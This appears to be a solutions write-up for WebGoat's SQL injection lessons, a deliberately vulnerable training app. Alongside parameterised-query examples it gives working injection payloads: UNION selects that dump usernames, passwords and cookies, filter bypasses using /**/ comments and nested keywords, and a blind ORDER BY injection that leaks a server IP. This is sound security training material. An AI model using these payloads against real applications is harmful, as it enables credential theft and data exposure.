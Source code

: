 # SQL Injection (Migration)

## 5 - Try It! Writing safe code

Answer:
Connection conn = DriverManager.`getConnection`(DBURL, DBUSER, DBPW);
```PreparedStatement statement``` = conn.`prepareStatement`("SELECT status FROM users WHERE name=`?` AND mail=`?`");
```statement.setString(1, name)```
```statement.setString(2, mail)```

## 6 - Try It! Writing safe code

Requirements:setS
- connect to a database
- perform a query on the database which is immune to SQL injection attacks
- your query needs to contain at least one string parameter

Answer:
```
try {
    String name = "name";
    Connection conn = DriverManager.getConnection(DBURL, DBUSER, DBPW);
    PreparedStatement statement = conn.prepareStatement("SELECT name from users where name = ?");
    statement.setString(1, name);
    ResultSet rs = statement.executeQuery();  
    if ( rs.next() ) {
        
    }
} catch (Exception e) {
    System.out.println("Oops. Something went wrong!");
}

```

## 9 - Input Validation Alone is not enough!!
Reading - https://twitter.com/marcan42/status/1238004834806067200?s=21

Reference table
```
CREATE TABLE user_data (userid int not null,
                           first_name varchar(20),
                           last_name varchar(20),
                           cc_number varchar(30),
                           cc_type varchar(10),
                           cookie varchar(20),
                           login_count int);
```
```
CREATE TABLE user_system_data (userid int not null primary key,
			                   user_name varchar(12),
			                   password varchar(10),
			                   cookie varchar(30));
```

Question:
Let’s repeat one of the previous assignments, the developer fixed the possible SQL injection with filtering, can you spot the weakness in this approach?


Answer: Need to bypass whitespace with /**/
Name = `'OR(1=1)UNION/**/select/**/userid,user_name,password,cookie,'1','2',3/**/from/**/user_system_data/**/where/**/'1'='1`

## 10 - Input validation alone is not enough!!
Answer: Use of spaces and/or SQL keywords are not allowed!
Hint: It is stripping SELECT and FROM.  Thus, we can craft the payload such that after stripping the keyword, it forms our keyword
e.g. SEL`SELECT`ECT = SELECT
Name:  `'OR(1=1)UNION/**/SELSELECTECT/**/userid,user_name,password,cookie,'1','2',3/**/FFROMROM/**/user_system_data/**/where/**/'1'='1`

## 12 - Injection through ORDER BY
In this assignment try to perform an SQL injection through the ORDER BY field. 
Try to find the ip address of the webgoat-prd server, guessing the complete ip address might take too long so we give you the last part: xxx.130.219.202

Solution
Input 1
```(CASE WHEN (select 1 from servers where ip like '%.130.219.202')=1 THEN id ELSE status END)```
Result 1 = order by id

Replace ip like to 
Input: ```1%.130.219.202```, Output: true
Input: ```11%.130.219.202```, Output: false
Input: ```10%.130.219.202```, Output: true
Input: ```104.130.219.202```, Output: true
Answer: `104.130.219.202`


